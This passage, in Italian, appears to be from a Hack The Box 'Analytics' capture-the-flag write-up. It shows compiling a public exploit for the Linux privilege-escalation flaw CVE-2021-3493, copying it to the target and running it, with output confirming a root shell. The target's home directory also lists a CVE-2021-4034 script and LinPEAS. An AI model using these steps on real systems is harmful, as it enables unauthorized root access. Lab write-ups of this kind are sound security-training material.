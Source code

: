 Cercando ancora su google troviamo anche questa [CVE-2021-3493](https://www.exploit-db.com/docs/49916) dove troviamo tutto il materiale per procedere.

una volta scaricato la repo da GitHub dobbiamo compilare l'exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical/CVE-2021-3493]
└─# gcc exploit.c -o exploit

┌──(root㉿kali)-[/home/kali/htb/analytical/CVE-2021-3493]
└─# ls
exploit  exploit.c  README.md
```

lo copiamo sull target con wget ed eseguiamo

```bahs
metalytics@analytics:~$ ls
CVE-2021-4034.py  exploit  LinPEAS.sh  ovlcap  user.txt
metalytics@analytics:~$ ./exploit
bash-5.1# id
uid=0(root) gid=0(root) groups=0(root),1000(metalytics)

```
